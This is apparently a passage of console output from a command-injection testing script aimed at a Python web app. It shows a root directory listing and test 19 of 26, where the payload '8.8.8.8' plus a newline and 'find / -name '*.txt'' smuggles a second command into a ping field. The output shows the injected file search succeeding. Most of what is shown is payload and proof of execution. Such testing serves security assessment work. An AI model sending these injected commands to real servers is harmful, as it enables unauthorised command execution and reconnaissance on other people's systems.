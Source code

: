 lrwxrwxrwx   1 root root    9 Aug 24 16:20 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Sep 29 00:00 media
drwxr-xr-x   2 root root 4096 Sep 29 00:00 mnt
drwxr-xr-x   2 root root 4096 Sep 29 00:00 opt
dr-xr-xr-x 225 root root    0 Oct  4 11:54 proc
drwx------   1 root root 4096 Sep 30 00:37 root
drwxr-xr-x   1 root root 4096 Oct  4 11:45 run
lrwxrwxrwx   1 root root    8 Aug 24 16:20 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Sep 29 00:00 srv
dr-xr-xr-x  12 root root    0 Oct  4 11:54 sys
drwxrwxrwt   1 root root 4096 Oct  4 14:11 tmp
drwxr-xr-x   1 root root 4096 Sep 29 00:00 usr
drwxr-xr-x   1 root root 4096 Sep 29 00:00 var

================================================================================

[19/26] Testing: Find all txt files

================================================================================
PAYLOAD: Find all txt files
Command: 8.8.8.8
find / -name '*.txt' -type f 2>/dev/null
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.68 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.78 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.72 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 3.677/3.737/3.780/0.041 ms
/usr/local/lib/python3.11/LICENSE.txt
/usr/local/lib/python3.11/site-packages/pip-24.0.dist-info/LICENSE.txt
/usr/local/lib/python3.11/site-packages/pip-24.0.dist-info/AUTHORS.txt
/usr/local/lib/python3.11/site-packages/pip-24.0.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/pip-24.0.dist-info/top_level.txt
/usr/local/lib/python3.11/site-packages/setuptools-65.5.1.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/setuptools-65.5.1.dist-info/top_level.txt
/usr/local/lib/python3.11/site-packages/wheel-0.45.1.dist-info/LICENSE.txt
/usr/local/lib/python3.11/site-packages/wheel-0.45.1.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/pip/_vendor/vendor.txt
/usr/local/lib/python3.11/site-packages/wheel/vendored/vendor.txt
/usr/local/lib/python3.11/site-packages/README.txt
/usr/local/lib/python3.11/site-packages/flask-3.1.2.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/flask-3.1.2.dist-info/licenses/LICENSE.txt
/usr/local/lib/python3.11/site-packages/click-8.3.0.dist-info/licenses/LICENSE.txt
/usr/local/lib/python3.11/site-packages/itsdangerous-2.2.0.dist-info/LICENSE.txt
/usr/local/lib/python3.11/site-packages/gunicorn-23.0.0.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/gunicorn-23.0.0.dist-info/top_level.txt
/usr/local/lib/python3.11/site-packages/jinja2-3.1.6.dist-info/entry_points.txt
/usr/local/lib/python3.11/site-packages/jinja2-3.1.6.dist-info/licenses/LICENSE.txt
/usr/local/lib/python3.11/site-packages/blinker-1.9.0.dist-info/LICENSE.txt
/usr/local/lib/python3.11/site-packages/markupsafe-3.0.3.dist-info/licenses/LICENSE.txt
/usr/local/lib/python3.11/site-packages/markupsafe-3.0.3.dist-info/top_level.txt
/usr/local/lib/python3.11/site-packages/werkzeug-3.1.3.dist-info/LICENSE.txt
/usr/local/lib/python3.11/lib2to3/PatternGrammar.txt
/usr/local/lib/python3.11/lib2to3/Grammar.txt
/usr/local/lib/python3.11/idlelib/NEWS2x.txt
/usr/local/lib/python3.11/idlelib/Icons/README.txt
/usr/local/lib/python3.11/idlelib/TODO.txt
/usr/local/lib/python3.11/idlelib/CREDITS.txt
/usr/local/lib/python3.11/idlelib/extend.txt
/usr/local/lib/python3.11/idlelib/HISTORY.txt
/usr/local/lib/python3.11/idlelib/News3.txt